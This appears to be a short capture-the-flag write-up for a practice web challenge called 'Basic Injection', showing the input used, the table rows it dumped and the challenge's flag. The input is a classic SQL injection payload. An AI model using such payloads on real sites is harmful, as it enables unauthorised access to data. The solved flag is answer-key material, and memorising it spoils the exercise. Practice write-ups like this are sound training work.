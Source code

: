 Web

## Basic Injection (30 pts)
Given this link https://web.ctflearn.com/web4/

### input:
```'or '1'='1 ```
### output: 
```  
Name: Luke
Data: I made this problem.
Name: Alec
Data: Steam boys.
Name: Jalen
Data: Pump that iron fool.
Name: Eric
Data: I make cars.
Name: Sam
Data: Thinks he knows SQL.
Name: fl4g__giv3r
Data: th4t_is_why_you_n33d_to_sanitiz3_inputs
Name: snoutpop
Data: jowls
Name: Chunbucket
Data: @datboiiii 
```

### Flag:
``` 
CTFlearn{th4t_is_why_you_n33d_to_sanitiz3_inputs}
```